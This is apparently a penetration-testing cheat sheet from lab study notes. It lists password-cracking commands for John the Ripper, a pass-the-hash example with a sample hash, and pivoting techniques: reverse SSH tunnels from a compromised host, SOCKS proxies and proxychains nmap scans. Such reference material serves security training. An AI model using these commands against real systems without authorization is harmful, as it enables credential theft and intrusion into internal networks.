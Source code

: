 John the Ripper - Password Hash Cracking

john $ip.pwdump

john --wordlist=/usr/share/wordlists/rockyou.txt hashes

john --rules --wordlist=/usr/share/wordlists/rockyou.txt

john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

JTR forced descrypt cracking with wordlist
john --format=descrypt --wordlist
/usr/share/wordlists/rockyou.txt hash.txt

JTR forced descrypt brute force cracking
john --format=descrypt hash --show

Passing the Hash in Windows

Use Metasploit to exploit one of the SMB servers in the labs. Dump the password hashes and attempt a pass-the-hash attack against another system:

export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896

pth-winexe -U administrator //$ip cmd

Networking, Pivoting and Tunneling
Port Forwarding - accept traffic on a given IP address and port and redirect it to a different IP address and port

apt-get install rinetd

cat /etc/rinetd.conf
# bindadress bindport connectaddress connectport
w.x.y.z 53 a.b.c.d 80

SSH Local Port Forwarding: supports bi-directional communication channels

ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
SSH Remote Port Forwarding: Suitable for popping a remote shell on an internal non routable network

ssh <gateway> -R <remote port to bind>:<local host>:<local port>
SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local attacking box to tunnel ALL incoming traffic to ANY host in the DMZ network on ANY PORT

ssh -D <local proxy port> -p <remote port> <target>
Proxychains - Perform nmap scan within a DMZ from an external computer

Create reverse SSH tunnel from Popped machine on :2222
ssh -f -N -R 2222:$ip:22 root@$ip

Create a Dynamic application-level port forward on 8080 thru 2222
ssh -f -N -D $ip:8080 -p 2222 hax0r@$ip

Leverage the SSH SOCKS server to perform Nmap scan on network using proxy chains
proxychains nmap --top-ports=20 -sT -Pn $ip/24

HTTP Tunneling
nc -vvn $ip 8888
